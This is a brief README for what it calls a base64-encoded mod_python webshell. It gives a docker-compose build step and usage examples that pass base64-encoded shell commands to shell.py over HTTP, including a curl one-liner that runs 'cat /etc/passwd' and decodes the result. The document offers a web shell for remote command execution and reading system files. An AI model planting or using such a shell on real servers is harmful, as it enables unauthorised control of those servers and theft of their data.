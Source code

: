 # base64 mod_python webshell

## build
docker-compose up -d --build

## usage
http://localhost:8001/shell.py/main/?cmd=Y2F0IC9ldGMvcGFzc3dk

or

`echo cat /etc/passwd | tr -d "\n" | base64 | xargs -I {} curl -s http://localhost:8001/shell.py/main/?cmd={} | base64 -d`